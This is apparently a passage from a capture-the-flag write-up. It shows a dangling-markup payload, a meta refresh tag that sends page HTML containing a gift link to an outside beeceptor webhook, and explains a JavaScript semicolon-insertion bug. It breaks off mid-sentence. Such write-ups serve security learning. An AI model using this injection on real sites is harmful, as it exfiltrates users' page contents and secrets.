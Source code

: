 If we key in a name as 
```
abc <meta http-equiv="refresh" content="0;https://asdfasdfasdf.free.beeceptor.com?content=
```

It will grab everything on the html until the next `"` is found. The contents of the page will be sent to our web hook (i.e. beeceptor). For example

![example](./example-webhook.png)

If we are able to do this on a `/create/Infinity` page, we will be able to get the gift link.

#### Automatic Semicolon Insertion

There's a very subtle bug in the `createGift` function due to missing semicolons.

```js
data.limit = 0

    // token is correct and amount is positive, so create the gift
    [console.log, logger]?.[process.env.LOG]?.('created gift')
```

Typically, semicolons will be inserted appropriately into your code during lexical analysis, but there are a few cases where this doesn't happen. If we reference MDN's documentation, we can see